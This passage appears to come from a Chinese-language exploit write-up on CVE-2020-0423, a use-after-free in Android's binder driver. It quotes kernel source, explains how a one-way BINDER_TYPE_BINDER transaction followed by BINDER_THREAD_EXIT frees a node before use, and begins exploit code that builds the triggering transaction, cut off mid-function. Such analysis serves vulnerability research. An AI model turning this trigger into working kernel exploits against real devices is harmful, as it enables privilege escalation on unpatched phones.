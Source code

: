 binder_dec_ref_for_handle会将减少句柄上的引用,如果引用为0,就free_ref

```c
static int binder_update_ref_for_handle(struct binder_proc *proc,
        uint32_t desc, bool increment, bool strong,
        struct binder_ref_data *rdata)
{
    // [...]
    if (increment)
        ret = binder_inc_ref_olocked(ref, strong, NULL);
    else
        /* 
         * Decrements the reference count by one and returns true since it
         * dropped to zero
         */
        delete_ref = binder_dec_ref_olocked(ref, strong);
    // [...]
    /* delete_ref is true, the binder node is freed */
    if (delete_ref)
        binder_free_ref(ref);
    return ret;
    // [...]
}
```

调用binder_free_ref,kfree node了

```c
static void binder_free_ref(struct binder_ref *ref)
{
    if (ref->node)
        binder_free_node(ref->node);
    kfree(ref->death);
    kfree(ref);
}
```

因而明白了触发漏洞的思路

首先我们自己向binder 发送一个BINDER_TYPE_BINDER TF_ONE_WAY的事务，binder会创建一个binder_node,并将该binder_node的work加入binder_thread->todo list里面去

![](/root/linux-kernel/android_cve/cve-2020-0423/trigger_step1.png)

之后我们进程使用BINDER_THREAD_EXIT启动清理过程，调用binder_release_work,把我们的node.work出todo list的队

![](/root/linux-kernel/android_cve/cve-2020-0423/trigger_step2.png)

因为我们设置的是TF_ONE_WAY，之后binder就会在出队之后和使用之前free掉binder_node，造成uaf

![](/root/linux-kernel/android_cve/cve-2020-0423/trigger_step3.png)

首先根据我们之前分析的work入todo list队,构造一个符合条件，通过前面所有检查的trnasaction

```c
static inline void init_binder_transaction(int nb) {
    /*
     * Writes `nb` times a BINDER_TYPE_BINDER object in the object buffer
     * and updates the offsets in the offset buffer accordingly
     */
    for (int i = 0; i < nb; i++) {
        struct flat_binder_object *fbo =
            (struct flat_binder_object *)((void*)(MEM_ADDR + 0x400LL + i*sizeof(*fbo)));
        fbo->hdr.type = BINDER_TYPE_BINDER;
        fbo->binder = i;
        fbo->cookie = i;
        uint64_t *offset = (uint64_t *)((void *)(MEM_ADDR + OFFSETS_START + 8LL*i));
        *offset = i * sizeof(*fbo);
```